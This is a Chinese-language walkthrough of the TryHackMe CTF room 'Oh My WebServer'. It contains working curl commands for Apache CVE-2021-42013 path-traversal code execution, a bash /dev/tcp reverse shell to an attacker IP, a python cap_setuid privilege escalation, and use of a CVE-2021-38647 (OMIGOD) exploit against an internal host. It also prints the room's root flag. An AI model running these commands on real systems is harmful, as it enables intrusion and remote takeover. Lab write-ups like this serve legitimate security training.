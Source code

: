 # Oh My WebServer

循例，nmap扫一波

发现只开22和80

开burp进80的web看一眼，顺便gobuster扫一波

web好像没啥东西，但是gobuster扫到了一个熟悉的目录 /cgi-bin

虽然我对这个目录不了解，但cgi这个名字还是了解过的，所以我觉得这肯定有东西，于是去百度搜一下资料

果然，CVE-2021-42013

仅适用于apache2.4.49和2.4.50

根据一番了解过后，构造：

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">curl</font> <font color="#FEA44C">&apos;http://10.10.95.75/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash&apos;</font> <font color="#9755B3">-H</font> <font color="#FEA44C">&apos;Content-Type: text/plain&apos;</font> <font color="#9755B3">-d</font> <font color="#FEA44C">&apos;echo; whoami&apos;</font>                
daemon
                                     </pre>

我们目录穿越到/bin/bash，作为我们的处理程序，我们的data就会被传入bash处理


---

reverse shell:

<pre><font color="#367BF0">──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">curl</font> <font color="#FEA44C">&apos;http://10.10.95.75/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash&apos;</font> <font color="#9755B3">-H</font> <font color="#FEA44C">&apos;Content-Type: text/plain&apos;</font> <font color="#9755B3">-d</font> <font color="#FEA44C">&apos;echo; whoami &amp;&amp; bash -i &gt;&amp; /dev/tcp/10.11.17.14/8888 0&gt;&amp;1&apos;</font>
</pre>


get到shell之后也是传统手艺信息收集

结果看到了惊喜：

<pre>daemon@4a70924bafa0:/bin$ getcap -r / 2&gt;/dev/null
/usr/bin/python3.7 = cap_setuid+ep
</pre>

成功提权root

<pre>daemon@4a70924bafa0:/bin$ /usr/bin/python3.7 -c &quot;import os;os.setuid(0);os.system(&apos;/bin/bash&apos;)&quot;       
root@4a70924bafa0:/bin# whoami
root
</pre>

但是只有user.txt，没有root.txt

继续找，然后没办法，一些命令也被删除了，去看了一下别人的做法

怀疑内网存在其他设备或者docker

然后把nmap传进去扫一下内网

nmap可执行文件：https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap

庆幸的是curl命令没有被删除

    root@4a70924bafa0:/# curl http://10.11.17.14:8000/nmap -o /nmap


赋予执行权限：

    root@4a70924bafa0:/# chmod 777 /nmap

运行nmap arp扫内网网段存活主机

    root@4a70924bafa0:/# /nmap -PR 172.17.0.0/16

<pre>Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.00057s latency).
Not shown: 1205 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
</pre>

使用端口扫描再看看有没有开其他端口

    root@4a70924bafa0:/# /nmap -sS -p- 172.17.0.1

不是一般的慢，我选择-p 0-10000

看到5986端口开放，百度看一下是:

    WinRM,windows远程桌面管理服务

由于我目前对windows不熟，只好找找有没有能用的cve和exp

[CVE-2021-38647](https://github.com/AlteredSecurity/CVE-2021-38647) exploit

将exp传到shell并运行

    root@4a70924bafa0:/# python3 /exp.py -t 172.17.0.1 -p 5986 -c id

    uid=0(root) gid=0(root) groups=0(root)

.

    root@4a70924bafa0:/# python3 /exp.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"         
                 
    THM{7f147ef1f36da9ae29529890a1b6011f}


CVE-2021-38647 解读文献：https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

<img src="https://www.datocms-assets.com/75231/1659892098-omigod-9.gif?fm=webp">
